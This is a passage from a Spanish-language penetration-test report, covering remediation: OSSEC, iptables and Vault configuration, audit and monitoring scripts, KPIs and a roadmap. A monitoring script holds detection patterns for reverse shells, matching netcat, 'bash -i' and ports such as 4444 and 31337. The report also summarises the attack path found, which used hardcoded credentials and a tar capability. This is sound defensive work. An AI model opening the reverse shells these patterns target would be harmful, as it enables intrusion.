    <include>vmpop3d_rules.xml</include>
    <include>courier_rules.xml</include>
    <include>web_rules.xml</include>
    <include>web_appsec_rules.xml</include>
    <include>apache_rules.xml</include>
    <include>nginx_rules.xml</include>
    <include>php_rules.xml</include>
    <include>mysql_rules.xml</include>
    <include>postgresql_rules.xml</include>
    <include>ids_rules.xml</include>
    <include>squid_rules.xml</include>
    <include>firewall_rules.xml</include>
    <include>cisco-ios_rules.xml</include>
    <include>netscreenfw_rules.xml</include>
    <include>sonicwall_rules.xml</include>
    <include>postfix_rules.xml</include>
    <include>sendmail_rules.xml</include>
    <include>imapd_rules.xml</include>
    <include>mailscanner_rules.xml</include>
    <include>dovecot_rules.xml</include>
    <include>ms-exchange_rules.xml</include>
    <include>racoon_rules.xml</include>
    <include>vpn_concentrator_rules.xml</include>
    <include>spamd_rules.xml</include>
    <include>msauth_rules.xml</include>
    <include>mcafee_av_rules.xml</include>
    <include>trend-osce_rules.xml</include>
    <include>ms-se_rules.xml</include>
    <include>zeus_rules.xml</include>
    <include>solaris_bsm_rules.xml</include>
    <include>vmware_rules.xml</include>
    <include>ms_dhcp_rules.xml</include>
    <include>asterisk_rules.xml</include>
    <include>ossec_rules.xml</include>
    <include>attack_rules.xml</include>
    <include>local_rules.xml</include>
  </rules>

  <syscheck>
    <frequency>7200</frequency>
    <directories check_all="yes">/etc,/usr/bin,/usr/sbin</directories>
    <directories check_all="yes">/bin,/sbin,/boot</directories>
    <directories check_all="yes">/home/cyber</directories>
    <ignore>/etc/mtab</ignore>
    <ignore>/etc/hosts.deny</ignore>
    <ignore>/etc/mail/statistics</ignore>
    <ignore>/etc/random-seed</ignore>
    <ignore>/etc/random.seed</ignore>
    <ignore>/etc/adjtime</ignore>
    <ignore>/etc/httpd/logs</ignore>
    <ignore>/etc/utmpx</ignore>
    <ignore>/etc/wtmpx</ignore>
    <ignore>/etc/cups/certs</ignore>
    <ignore>/etc/dumpdates</ignore>
    <ignore>/etc/svc/volatile</ignore>
  </syscheck>

  <rootcheck>
    <rootkit_files>/var/ossec/etc/shared/rootkit_files.txt</rootkit_files>
    <rootkit_trojans>/var/ossec/etc/shared/rootkit_trojans.txt</rootkit_trojans>
    <system_audit>/var/ossec/etc/shared/system_audit_rcl.txt</system_audit>
    <system_audit>/var/ossec/etc/shared/cis_debian_linux_rcl.txt</system_audit>
  </rootcheck>

  <localfile>
    <log_format>syslog</log_format>
    <location>/var/log/auth.log</location>
  </localfile>

  <localfile>
    <log_format>syslog</log_format>
    <location>/var/log/syslog</location>
  </localfile>

  <localfile>
    <log_format>syslog</log_format>
    <location>/var/log/dpkg.log</location>
  </localfile>

  <localfile>
    <log_format>apache</log_format>
    <location>/var/log/apache2/error.log</location>
  </localfile>

  <localfile>
    <log_format>apache</log_format>
    <location>/var/log/apache2/access.log</location>
  </localfile>
</ossec_config>
EOF

/var/ossec/bin/ossec-control restart
```

### Mitigaciones a Largo Plazo (1-4 semanas)

#### 1. Implementar Arquitectura de Seguridad en Profundidad

```bash
# 1. Segmentación de red
cat > /etc/netplan/01-security-config.yaml << 'EOF'
network:
  version: 2
  ethernets:
    eth0:
      dhcp4: no
      addresses: [192.168.100.10/24]  # Red DMZ
      gateway4: 192.168.100.1
      nameservers:
        addresses: [8.8.8.8, 1.1.1.1]
        
    eth1:
      dhcp4: no  
      addresses: [10.0.1.10/24]       # Red interna admin
      nameservers:
        addresses: [8.8.8.8, 1.1.1.1]
EOF

# 2. Configurar iptables avanzadas
cat > /etc/iptables/rules.v4 << 'EOF'
*filter
:INPUT DROP [0:0]
:FORWARD DROP [0:0]  
:OUTPUT ACCEPT [0:0]

# Permitir loopback
-A INPUT -i lo -j ACCEPT

# Permitir conexiones establecidas
-A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

# SSH solo desde red administrativa
-A INPUT -s 10.0.1.0/24 -p tcp --dport 22 -j ACCEPT

# HTTP/HTTPS desde internet
-A INPUT -p tcp --dport 80 -j ACCEPT
-A INPUT -p tcp --dport 443 -j ACCEPT

# Webmin/Usermin solo desde red administrativa
-A INPUT -s 10.0.1.0/24 -p tcp --dport 10000 -j ACCEPT
-A INPUT -s 10.0.1.0/24 -p tcp --dport 20000 -j ACCEPT

# Logging de conexiones denegadas
-A INPUT -j LOG --log-prefix "IPTABLES-DENIED: "

COMMIT
EOF

# 3. Configurar VPN para acceso administrativo
apt-get install -y strongswan strongswan-pki
```

#### 2. Gestión Centralizada de Credenciales

```bash
# Implementar HashiCorp Vault
wget -O- https://apt.releases.hashicorp.com/gpg | gpg --dearmor | \
    tee /usr/share/keyrings/hashicorp-archive-keyring.gpg

echo "deb [signed-by=/usr/share/keyrings/hashicorp-archive-keyring.gpg] \
    https://apt.releases.hashicorp.com $(lsb_release -cs) main" | \
    tee /etc/apt/sources.list.d/hashicorp.list

apt-get update && apt-get install -y vault

# Configuración básica de Vault
mkdir -p /etc/vault.d
cat > /etc/vault.d/vault.hcl << 'EOF'
storage "file" {
  path = "/opt/vault/data"
}

listener "tcp" {
  address     = "127.0.0.1:8200"
  tls_disable = 1
}

api_addr = "http://127.0.0.1:8200"
cluster_addr = "https://127.0.0.1:8201"
ui = true
EOF

# Crear directorio y usuario
useradd --system --home /etc/vault.d --shell /bin/false vault
mkdir -p /opt/vault/data
chown vault:vault /opt/vault/data
chmod 755 /opt/vault/data

# Crear servicio systemd
cat > /etc/systemd/system/vault.service << 'EOF'
[Unit]
Description=HashiCorp Vault
Documentation=https://www.vaultproject.io/docs/
Requires=network-online.target
After=network-online.target
ConditionFileNotEmpty=/etc/vault.d/vault.hcl
StartLimitIntervalSec=60
StartLimitBurst=3

[Service]
User=vault
Group=vault
ProtectSystem=full
ProtectHome=read-only
PrivateTmp=yes
PrivateDevices=yes
SecureBits=keep-caps
AmbientCapabilities=CAP_IPC_LOCK
Capabilities=CAP_IPC_LOCK+ep
CapabilityBoundingSet=CAP_SYSLOG CAP_IPC_LOCK
NoNewPrivileges=yes
ExecStart=/usr/bin/vault server -config=/etc/vault.d/vault.hcl
ExecReload=/bin/kill --signal HUP $MAINPID
KillMode=process
Restart=on-failure
RestartSec=5
TimeoutStopSec=30
StartLimitInterval=60
StartLimitBurst=3
LimitNOFILE=65536
LimitMEMLOCK=infinity

[Install]
WantedBy=multi-user.target
EOF

systemctl enable vault
systemctl start vault
```

---

## Programa de Mejora Continua

### Plan de Auditorías Regulares

#### Auditorías Trimestrales
```bash
# Script de auditoría automatizada
cat > /root/security_audit.sh << 'EOF'
#!/bin/bash

AUDIT_LOG="/var/log/security_audit_$(date +%Y%m%d).log"

echo "=== AUDITORÍA DE SEGURIDAD - $(date) ===" >> $AUDIT_LOG

# 1. Verificar usuarios con shell
echo "[+] Usuarios con shell de login:" >> $AUDIT_LOG
grep -E "/bin/(ba)?sh" /etc/passwd >> $AUDIT_LOG

# 2. Auditar SUID/SGID
echo "[+] Binarios SUID/SGID:" >> $AUDIT_LOG
find / -perm -4000 -o -perm -2000 2>/dev/null >> $AUDIT_LOG

# 3. Verificar capabilities
echo "[+] Capabilities del sistema:" >> $AUDIT_LOG
getcap -r / 2>/dev/null >> $AUDIT_LOG

# 4. Puertos abiertos
echo "[+] Puertos en escucha:" >> $AUDIT_LOG
ss -tulpn >> $AUDIT_LOG

# 5. Procesos con privilegios
echo "[+] Procesos ejecutándose como root:" >> $AUDIT_LOG
ps aux | grep "^root" >> $AUDIT_LOG

# 6. Archivos modificados recientemente
echo "[+] Archivos modificados en últimas 24h:" >> $AUDIT_LOG
find /etc /usr/bin /usr/sbin -type f -mtime -1 2>/dev/null >> $AUDIT_LOG

# 7. Intentos de acceso fallidos
echo "[+] Intentos de login fallidos:" >> $AUDIT_LOG
grep "authentication failure" /var/log/auth.log | tail -20 >> $AUDIT_LOG

# 8. Verificar integridad de archivos críticos
echo "[+] Verificación de integridad:" >> $AUDIT_LOG
for file in /etc/passwd /etc/shadow /etc/sudoers; do
    if [ -f "$file" ]; then
        echo "$(ls -la $file) - $(md5sum $file)" >> $AUDIT_LOG
    fi
done

echo "=== FIN AUDITORÍA - $(date) ===" >> $AUDIT_LOG
EOF

chmod +x /root/security_audit.sh

# Configurar cron para ejecución automática
echo "0 2 1 */3 * /root/security_audit.sh" >> /etc/crontab
```

#### Monitoreo Continuo
```bash
# Script de monitoreo en tiempo real
cat > /root/continuous_monitoring.sh << 'EOF'
#!/bin/bash

while true; do
    # Monitor de conexiones sospechosas
    NEW_CONNECTIONS=$(ss -tuln | grep -E ":(4444|4445|4446|1234|31337)" | wc -l)
    if [ $NEW_CONNECTIONS -gt 0 ]; then
        echo "$(date): Conexiones sospechosas detectadas" >> /var/log/security_alerts.log
        ss -tuln | grep -E ":(4444|4445|4446|1234|31337)" >> /var/log/security_alerts.log
    fi
    
    # Monitor de procesos sospechosos
    SUSPICIOUS_PROCS=$(ps aux | grep -E "(nc|netcat|/bin/sh -i|bash -i)" | grep -v grep | wc -l)
    if [ $SUSPICIOUS_PROCS -gt 0 ]; then
        echo "$(date): Procesos sospechosos detectados" >> /var/log/security_alerts.log
        ps aux | grep -E "(nc|netcat|/bin/sh -i|bash -i)" | grep -v grep >> /var/log/security_alerts.log
    fi
    
    # Monitor de modificaciones en archivos críticos
    find /etc/passwd /etc/shadow /etc/sudoers -newer /tmp/lastcheck 2>/dev/null | \
    while read file; do
        echo "$(date): Archivo crítico modificado: $file" >> /var/log/security_alerts.log
    done
    
    touch /tmp/lastcheck
    sleep 60
done
EOF

chmod +x /root/continuous_monitoring.sh

# Crear servicio para monitoreo continuo
cat > /etc/systemd/system/security-monitor.service << 'EOF'
[Unit]
Description=Continuous Security Monitoring
After=network.target

[Service]
Type=simple
User=root
ExecStart=/root/continuous_monitoring.sh
Restart=always
RestartSec=10

[Install]
WantedBy=multi-user.target
EOF

systemctl enable security-monitor.service
systemctl start security-monitor.service
```

### Capacitación del Personal

#### Programa de Concientización en Seguridad
```markdown
## Módulo 1: Gestión Segura de Credenciales
- ❌ NUNCA almacenar credenciales en código fuente
- ✅ Usar gestores de secretos (Vault, Azure Key Vault)
- ✅ Implementar rotación automática de credenciales
- ✅ Usar autenticación multifactor (2FA/MFA)

## Módulo 2: Configuración Segura de Sistemas
- ❌ Evitar capabilities innecesarias
- ❌ No exponer paneles administrativos públicamente
- ✅ Aplicar principio de menor privilegio
- ✅ Mantener sistemas actualizados

## Módulo 3: Respuesta a Incidentes
- 🔍 Identificación de indicadores de compromiso
- 🔒 Procedimientos de contención
- 📊 Análisis forense básico
- 🔄 Procedimientos de recuperación
```

---

## Métricas y KPIs de Seguridad

### Indicadores Clave de Rendimiento

| **Métrica** | **Valor Objetivo** | **Frecuencia** | **Responsable** |
|-------------|-------------------|----------------|-----------------|
| Vulnerabilidades Críticas | 0 | Semanal | Security Team |
| Tiempo de Remediación | < 24h | Por incidente | DevOps Team |
| Intentos de Acceso Fallidos | < 10/día | Diario | SOC Team |
| Actualizaciones de Seguridad | 100% aplicadas | Mensual | IT Operations |
| Auditorías de Código | 100% proyectos | Por release | Development Team |

### Dashboard de Seguridad
```bash
# Script para generar reporte de métricas
cat > /root/security_metrics.sh << 'EOF'
#!/bin/bash

REPORT_DATE=$(date +%Y-%m-%d)
REPORT_FILE="/var/log/security_metrics_$REPORT_DATE.html"

cat > $REPORT_FILE << 'EOL'
<!DOCTYPE html>
<html>
<head>
    <title>Security Metrics Dashboard</title>
    <style>
        body { font-family: Arial, sans-serif; margin: 20px; }
        .metric { margin: 10px 0; padding: 10px; border-left: 4px solid #007cba; }
        .critical { border-left-color: #dc3545; }
        .warning { border-left-color: #ffc107; }
        .success { border-left-color: #28a745; }
    </style>
</head>
<body>
    <h1>Security Metrics Dashboard</h1>
    <h2>Date: REPORT_DATE</h2>
EOL

# Vulnerabilidades críticas
CRITICAL_VULNS=$(nmap --script vuln localhost | grep -i "critical\|high" | wc -l)
if [ $CRITICAL_VULNS -eq 0 ]; then
    echo '<div class="metric success">✅ Critical Vulnerabilities: 0</div>' >> $REPORT_FILE
else
    echo "<div class=\"metric critical\">❌ Critical Vulnerabilities: $CRITICAL_VULNS</div>" >> $REPORT_FILE
fi

# Intentos de acceso fallidos
FAILED_LOGINS=$(grep "authentication failure" /var/log/auth.log | grep "$(date +%b\ %d)" | wc -l)
if [ $FAILED_LOGINS -lt 10 ]; then
    echo "<div class=\"metric success\">✅ Failed Login Attempts Today: $FAILED_LOGINS</div>" >> $REPORT_FILE
else
    echo "<div class=\"metric warning\">⚠️ Failed Login Attempts Today: $FAILED_LOGINS</div>" >> $REPORT_FILE
fi

# Actualizaciones pendientes
PENDING_UPDATES=$(apt list --upgradable 2>/dev/null | grep -c "upgradable")
if [ $PENDING_UPDATES -eq 0 ]; then
    echo '<div class="metric success">✅ System Updates: Up to date</div>' >> $REPORT_FILE
else
    echo "<div class=\"metric warning\">⚠️ Pending Updates: $PENDING_UPDATES</div>" >> $REPORT_FILE
fi

# Servicios críticos
SERVICES=("apache2" "ssh" "ufw" "fail2ban" "ossec")
for service in "${SERVICES[@]}"; do
    if systemctl is-active --quiet $service; then
        echo "<div class=\"metric success\">✅ Service $service: Active</div>" >> $REPORT_FILE
    else
        echo "<div class=\"metric critical\">❌ Service $service: Inactive</div>" >> $REPORT_FILE
    fi
done

cat >> $REPORT_FILE << 'EOL'
</body>
</html>
EOL

echo "Security metrics report generated: $REPORT_FILE"
EOF

chmod +x /root/security_metrics.sh

# Programar ejecución semanal
echo "0 8 * * 1 /root/security_metrics.sh" >> /etc/crontab
```

---

## Conclusiones

### Resumen de Hallazgos Críticos

La evaluación de penetración reveló **vulnerabilidades extremadamente críticas** que permitieron el compromiso completo del sistema en menos de una hora. Los hallazgos principales demuestran una **postura de seguridad fundamentalmente deficiente** que requiere intervención inmediata:

#### Hallazgos Principales por Severidad

**🔴 CRÍTICO (CVSS 9.0+)**
1. **Credenciales hardcodeadas** en código fuente público
2. **Archivos de backup** con credenciales de administrador
3. **Control total del sistema** obtenido

**🟠 ALTO (CVSS 7.0-8.9)**  
4. **Linux capabilities inseguras** permitiendo escalada de privilegios
5. **Paneles administrativos** expuestos sin restricciones de red

**🟡 MEDIO (CVSS 4.0-6.9)**
6. **Enumeración SMB** habilitada sin restricciones

### Impacto en el Negocio

| **Área de Impacto** | **Riesgo Actual** | **Impacto Financiero** | **Reputacional** |
|---------------------|-------------------|------------------------|------------------|
| **Confidencialidad** | CRÍTICO | Alto - Exposición de datos | Severo |
| **Integridad** | CRÍTICO | Alto - Modificación sistemas | Severo |
| **Disponibilidad** | CRÍTICO | Alto - Interrupción servicios | Severo |
| **Cumplimiento** | CRÍTICO | Muy Alto - Violaciones normativas | Crítico |

### Cadena de Ataque Identificada



### Análisis de Riesgo Residual

**Sin Mitigación:** El sistema presenta un **riesgo extremo (10/10)** de compromiso con:
- Probabilidad de explotación: **99%**
- Tiempo promedio de compromiso: **< 1 hora**
- Nivel de habilidad requerido: **Básico-Intermedio**

**Con Mitigaciones Inmediatas:** Reducción a **riesgo medio (5/10)**
**Con Programa Completo:** Reducción a **riesgo bajo (2/10)**

---

## Roadmap de Implementación

### Fase 1: Respuesta Inmediata (0-48 horas)
```bash
# Lista de verificación crítica
☐ Remover credenciales del código fuente web
☐ Eliminar capabilities peligrosas (/home/cyber/tar)  
☐ Destruir archivos de backup con credenciales
☐ Cambiar TODAS las contraseñas del sistema
☐ Restringir acceso a paneles administrativos
☐ Implementar firewall básico
☐ Auditar logs de acceso
```

### Fase 2: Estabilización (1-2 semanas)
```bash
# Implementaciones de seguridad
☐ Configurar sistema de gestión de secretos
☐ Implementar hardening completo del sistema
☐ Configurar monitoreo de seguridad (OSSEC)
☐ Establecer procedimientos de backup seguro
☐ Implementar autenticación multifactor
☐ Configurar segmentación de red básica
```

### Fase 3: Fortificación (2-4 semanas)
```bash
# Arquitectura de seguridad avanzada
☐ Implementar HashiCorp Vault para gestión de secretos
☐ Configurar VPN para acceso administrativo
☐ Establecer SOC (Security Operations Center) básico
☐ Implementar SIEM para correlación de eventos
☐ Configurar respaldo automático cifrado
☐ Establecer programa de vulnerability management
```

### Fase 4: Maduración (1-3 meses)
```bash
# Programa de seguridad maduro
☐ Implementar DevSecOps en pipeline de desarrollo
☐ Establecer programa de threat hunting
☐ Configurar threat intelligence feeds
☐ Implementar zero-trust architecture
☐ Establecer programa de red team exercises
☐ Certificación ISO 27001 / SOC 2
```

---

## Herramientas y Recursos Recomendados

### Herramientas de Seguridad Open Source

#### Gestión de Vulnerabilidades
```bash
# OpenVAS - Scanner de vulnerabilidades
apt-get install openvas
openvas-setup

# Nuclei - Scanner moderno de vulnerabilidades  
GO111MODULE=on go get -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei
nuclei -u https://target.com

# Nessus (Comercial pero con versión gratuita)
# Download from: https://www.tenable.com/products/nessus
```

#### Monitoreo y SIEM
```bash
# Wazuh - SIEM open source
curl -sO https://packages.wazuh.com/4.x/wazuh-install.sh && sudo bash ./wazuh-install.sh -a

# ELK Stack para análisis de logs
wget -qO - https://artifacts.elastic.co/GPG-KEY-elasticsearch | sudo apt-key add -
echo "deb https://artifacts.elastic.co/packages/8.x/apt stable main" | sudo tee /etc/apt/sources.list.d/elastic-8.x.list
apt-get update && apt-get install elasticsearch kibana logstash

# Suricata - IDS/IPS
apt-get install suricata
```

#### Hardening y Compliance
```bash
# CIS-CAT - Benchmark assessment
# Download from: https://www.cisecurity.org/cybersecurity-tools/cis-cat-pro

# Lynis - Security auditing  
apt-get install lynis
lynis audit system

# OpenSCAP - Security compliance
apt-get install libopenscap8 scap-security-guide
oscap xccdf eval --profile xccdf_org.ssgproject.content_profile_standard /usr/share/xml/scap/ssg/content/ssg-debian10-ds.xml
```

### Scripts de Automatización Personalizados

#### Script de Auditoría Completa
```bash
cat > /root/comprehensive_audit.sh << 'EOF'
#!/bin/bash

# Comprehensive Security Audit Script
# Versión: 2.0
# Autor: Security Team

AUDIT_DIR="/var/log/security_audits/$(date +%Y%m%d_%H%M%S)"
mkdir -p "$AUDIT_DIR"

echo "[+] Iniciando auditoría completa de seguridad..."
echo "[+] Directorio de resultados: $AUDIT_DIR"

# 1. System Information
echo "[+] Recopilando información del sistema..."
{
    echo "=== INFORMACIÓN DEL SISTEMA ==="
    uname -a
    cat /etc/os-release
    uptime
    echo -e "\n=== HARDWARE ==="
    lscpu
    free -h
    df -h
    echo -e "\n=== NETWORK INTERFACES ==="
    ip addr show
} > "$AUDIT_DIR/01_system_info.txt"

# 2. User and Group Audit
echo "[+] Auditando usuarios y grupos..."
{
    echo "=== USUARIOS CON SHELL ==="
    grep -E "/(ba)?sh$" /etc/passwd
    echo -e "\n=== USUARIOS SIN PASSWORD ==="
    awk -F: '($2 == "" || $2 == "!") {print $1}' /etc/shadow
    echo -e "\n=== SUDOERS ==="
    cat /etc/sudoers | grep -v "^#"
    echo -e "\n=== GRUPOS PRIVILEGIADOS ==="
    grep -E "(sudo|admin|root|wheel)" /etc/group
} > "$AUDIT_DIR/02_users_groups.txt"

# 3. Network Services  
echo "[+] Analizando servicios de red..."
{
    echo "=== PUERTOS EN ESCUCHA ==="
    ss -tulpn
    echo -e "\n=== SERVICIOS ACTIVOS ==="
    systemctl list-units --type=service --state=running
    echo -e "\n=== CONEXIONES ESTABLECIDAS ==="
    ss -tupn state established
} > "$AUDIT_DIR/03_network_services.txt"

# 4. File Permissions and SUID/SGID
echo "[+] Auditando permisos de archivos..."
{
    echo "=== BINARIOS SUID ==="
    find / -perm -4000 -type f 2>/dev/null
    echo -e "\n=== BINARIOS SGID ==="
    find / -perm -2000 -type f 2>/dev/null
    echo -e "\n=== CAPABILITIES ==="
    getcap -r / 2>/dev/null
    echo -e "\n=== WORLD-WRITABLE FILES ==="
    find / -perm -002 -type f -not -path "/proc/*" -not -path "/sys/*" 2>/dev/null | head -50
} > "$AUDIT_DIR/04_permissions.txt"

# 5. System Configuration
echo "[+] Revisando configuraciones del sistema..."
{
    echo "=== KERNEL PARAMETERS ==="
    sysctl -a | grep -E "(net\.ipv4|kernel\.dmesg_restrict|kernel\.kptr_restrict)"
    echo -e "\n=== CRON JOBS ==="
    crontab -l 2>/dev/null || echo "No crontab for root"
    ls -la /etc/cron.*/ 2>/dev/null
    echo -e "\n=== SSH CONFIGURATION ==="
    grep -v "^#" /etc/ssh/sshd_config | grep -v "^$"
    echo -e "\n=== FIREWALL STATUS ==="
    ufw status verbose 2>/dev/null || iptables -L -n
} > "$AUDIT_DIR/05_system_config.txt"

# 6. Log Analysis
echo "[+] Analizando logs de seguridad..."
{
    echo "=== INTENTOS DE LOGIN FALLIDOS (Últimos 100) ==="
    grep "authentication failure" /var/log/auth.log | tail -100
    echo -e "\n=== CONEXIONES SSH (Últimas 50) ==="
    grep "sshd.*Accepted\|sshd.*Failed" /var/log/auth.log | tail -50
    echo -e "\n=== COMANDOS SUDO (Últimos 50) ==="
    grep "sudo.*COMMAND" /var/log/auth.log | tail -50
} > "$AUDIT_DIR/06_logs.txt"

# 7. Vulnerability Assessment
echo "[+] Ejecutando evaluación de vulnerabilidades..."
{
    echo "=== LYNIS SECURITY SCAN ==="
    if command -v lynis &> /dev/null; then
        lynis audit system --quiet --no-colors
    else
        echo "Lynis no instalado - Instalando..."
        apt-get update && apt-get install -y lynis
        lynis audit system --quiet --no-colors
    fi
} > "$AUDIT_DIR/07_vulnerabilities.txt"

# 8. Malware and Rootkit Check
echo "[+] Verificando malware y rootkits..."
{
    echo "=== RKHUNTER SCAN ==="
    if command -v rkhunter &> /dev/null; then
        rkhunter --check --sk --summary
    else
        echo "rkhunter no instalado"
    fi
    
    echo -e "\n=== CHKROOTKIT SCAN ==="
    if command -v chkrootkit &> /dev/null; then
        chkrootkit
    else
        echo "chkrootkit no instalado"
    fi
    
    echo -e "\n=== PROCESOS SOSPECHOSOS ==="
    ps auxf | grep -E "(nc|netcat|/tmp/|/var/tmp/)" | grep -v grep
} > "$AUDIT_DIR/08_malware_check.txt"

# 9. Generate Summary Report
echo "[+] Generando reporte resumen..."
cat > "$AUDIT_DIR/00_EXECUTIVE_SUMMARY.txt" << EOL
AUDITORÍA DE SEGURIDAD COMPLETA
===============================
Fecha: $(date)
Sistema: $(hostname)
OS: $(cat /etc/os-release | grep PRETTY_NAME | cut -d'"' -f2)

RESUMEN DE HALLAZGOS:
- Total de archivos generados: $(ls -1 "$AUDIT_DIR" | wc -l)
- Usuarios con shell: $(grep -E "/(ba)?sh$" /etc/passwd | wc -l)
- Binarios SUID: $(find / -perm -4000 -type f 2>/dev/null | wc -l)
- Capabilities activas: $(getcap -r / 2>/dev/null | wc -l)
- Servicios en ejecución: $(systemctl list-units --type=service --state=running --no-pager | grep -c "loaded active running")
- Puertos abiertos: $(ss -tulpn | grep -c "LISTEN")

ARCHIVOS DE AUDITORÍA:
$(ls -la "$AUDIT_DIR"/*)

RECOMENDACIONES:
1. Revisar usuarios con shell activo
2. Auditar binarios SUID/SGID
3. Verificar capabilities del sistema  
4. Revisar servicios innecesarios
5. Analizar logs de autenticación
6. Aplicar actualizaciones de seguridad

Para más detalles, revisar los archivos individuales en:
$AUDIT_DIR
EOL

# 10. Generate HTML Report
echo "[+] Generando reporte HTML..."
cat > "$AUDIT_DIR/security_report.html" << 'EOL'
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Reporte de Auditoría de Seguridad</title>
    <style>
        body { 
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; 
            margin: 20px; 
            background-color: #f5f5f5;
        }
        .container { 
            max-width: 1200px; 
            margin: 0 auto; 
            background: white; 
            padding: 20px; 
            border-radius: 8px; 
            box-shadow: 0 2px 10px rgba(0,0,0,0.1);
        }
        h1 { 
            color: #2c3e50; 
            text-align: center; 
            border-bottom: 3px solid #3498db; 
            padding-bottom: 10px;
        }
        h2 { 
            color: #34495e; 
            border-left: 4px solid #3498db; 
            padding-left: 10px;
        }
        .metric { 
            margin: 10px 0; 
            padding: 15px; 
            border-radius: 5px; 
            border-left: 5px solid #007cba; 
            background: #f8f9fa;
        }
        .critical { 
            border-left-color: #dc3545; 
            background: #f8d7da; 
        }
        .warning { 
            border-left-color: #ffc107; 
            background: #fff3cd; 
        }
        .success { 
            border-left-color: #28a745; 
            background: #d4edda; 
        }
        .info { 
            border-left-color: #17a2b8; 
            background: #d6f5f5; 
        }
        table { 
            width: 100%; 
            border-collapse: collapse; 
            margin: 20px 0; 
        }
        th, td { 
            padding: 12px; 
            text-align: left; 
            border-bottom: 1px solid #ddd; 
        }
        th { 
            background-color: #3498db; 
            color: white; 
        }
        tr:hover { 
            background-color: #f5f5f5; 
        }
        .timestamp { 
            color: #666; 
            font-size: 0.9em; 
        }
        pre { 
            background: #2c3e50; 
            color: #ecf0f1; 
            padding: 15px; 
            border-radius: 5px; 
            overflow-x: auto; 
            font-size: 0.9em;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>🔒 Reporte de Auditoría de Seguridad</h1>
        <div class="timestamp">
            Generado el: $(date)<br>
            Sistema: $(hostname) - $(cat /etc/os-release | grep PRETTY_NAME | cut -d'"' -f2)
        </div>

        <h2>📊 Métricas de Seguridad</h2>
EOL

# Add metrics to HTML
SUID_COUNT=$(find / -perm -4000 -type f 2>/dev/null | wc -l)
CAP_COUNT=$(getcap -r / 2>/dev/null | wc -l)  
SERVICE_COUNT=$(systemctl list-units --type=service --state=running --no-pager | grep -c "loaded active running")
PORT_COUNT=$(ss -tulpn | grep -c "LISTEN")
USER_COUNT=$(grep -E "/(ba)?sh$" /etc/passwd | wc -l)

cat >> "$AUDIT_DIR/security_report.html" << EOL
        <div class="metric info">
            📈 <strong>Usuarios con Shell Activo:</strong> $USER_COUNT usuarios
        </div>
        
        <div class="metric $([ $SUID_COUNT -gt 50 ] && echo "warning" || echo "success")">
            🔐 <strong>Binarios SUID/SGID:</strong> $SUID_COUNT archivos
        </div>
        
        <div class="metric $([ $CAP_COUNT -gt 0 ] && echo "warning" || echo "success")">
            🛡️ <strong>Capabilities Activas:</strong> $CAP_COUNT configuraciones
        </div>
        
        <div class="metric info">
            🔧 <strong>Servicios en Ejecución:</strong> $SERVICE_COUNT servicios
        </div>
        
        <div class="metric $([ $PORT_COUNT -gt 10 ] && echo "warning" || echo "success")">
            🌐 <strong>Puertos Abiertos:</strong> $PORT_COUNT puertos
        </div>

        <h2>📁 Archivos de Auditoría Generados</h2>
        <table>
            <tr>
                <th>Archivo</th>
                <th>Descripción</th>
                <th>Tamaño</th>
            </tr>
EOL

# Add file listing to HTML
for file in "$AUDIT_DIR"/*.txt; do
    if [ -f "$file" ]; then
        filename=$(basename "$file")
        size=$(ls -lh "$file" | awk '{print $5}')
        case "$filename" in
            01_*) desc="Información general del sistema y hardware" ;;
            02_*) desc="Auditoría de usuarios, grupos y privilegios" ;;
            03_*) desc="Análisis de servicios de red y conexiones" ;;
            04_*) desc="Permisos de archivos, SUID/SGID y capabilities" ;;
            05_*) desc="Configuraciones del sistema y servicios" ;;
            06_*) desc="Análisis de logs de seguridad y autenticación" ;;
            07_*) desc="Evaluación de vulnerabilidades con Lynis" ;;
            08_*) desc="Verificación de malware y rootkits" ;;
            *) desc="Archivo de auditoría adicional" ;;
        esac
        
        echo "            <tr>" >> "$AUDIT_DIR/security_report.html"
        echo "                <td><strong>$filename</strong></td>" >> "$AUDIT_DIR/security_report.html"
        echo "                <td>$desc</td>" >> "$AUDIT_DIR/security_report.html"
        echo "                <td>$size</td>" >> "$AUDIT_DIR/security_report.html"
        echo "            </tr>" >> "$AUDIT_DIR/security_report.html"
    fi
done

cat >> "$AUDIT_DIR/security_report.html" << 'EOL'
        </table>

        <h2>🎯 Recomendaciones Prioritarias</h2>
        <div class="metric critical">
            <strong>🔴 CRÍTICO:</strong> Revisar y remediar cualquier capability peligrosa identificada
        </div>
        
        <div class="metric warning">
            <strong>🟠 ALTO:</strong> Auditar binarios SUID/SGID innecesarios
        </div>
        
        <div class="metric warning">
            <strong>🟠 ALTO:</strong> Revisar usuarios con acceso shell y privilegios sudo
        </div>
        
        <div class="metric info">
            <strong>🔵 MEDIO:</strong> Deshabilitar servicios innecesarios
        </div>
        
        <div class="metric info">
            <strong>🔵 MEDIO:</strong> Implementar monitoreo continuo de logs
        </div>

        <h2>📝 Próximos Pasos</h2>
        <ol>
            <li><strong>Revisión Inmediata:</strong> Analizar archivo 00_EXECUTIVE_SUMMARY.txt</li>
            <li><strong>Priorización:</strong> Remediar hallazgos críticos primero</li>
            <li><strong>Implementación:</strong> Aplicar controles de seguridad recomendados</li>
            <li><strong>Monitoreo:</strong> Establecer auditorías regulares</li>
            <li><strong>Validación:</strong> Re-ejecutar auditoría post-remediación</li>
        </ol>
        
        <div style="text-align: center; margin-top: 30px; padding: 20px; background: #ecf0f1; border-radius: 5px;">
            <p><strong>Auditoría completada exitosamente</strong></p>
            <p class="timestamp">Todos los archivos guardados en: $AUDIT_DIR</p>
        </div>
    </div>
</body>
</html>
EOL

# Set permissions
chmod -R 600 "$AUDIT_DIR"
chmod 644 "$AUDIT_DIR/security_report.html"

echo "[+] Auditoría completa finalizada!"
echo "[+] Resultados guardados en: $AUDIT_DIR"
echo "[+] Reporte HTML: $AUDIT_DIR/security_report.html"
echo "[+] Resumen ejecutivo: $AUDIT_DIR/00_EXECUTIVE_SUMMARY.txt"

# Send email notification (if configured)
if command -v mail &> /dev/null; then
    echo "Auditoría de seguridad completada en $(hostname). Revisar: $AUDIT_DIR" | \
        mail -s "Security Audit Complete" admin@company.com
fi
EOF

chmod +x /root/comprehensive_audit.sh
```

---

## Recursos Adicionales y Referencias

### Documentation y Standards

#### Frameworks de Seguridad
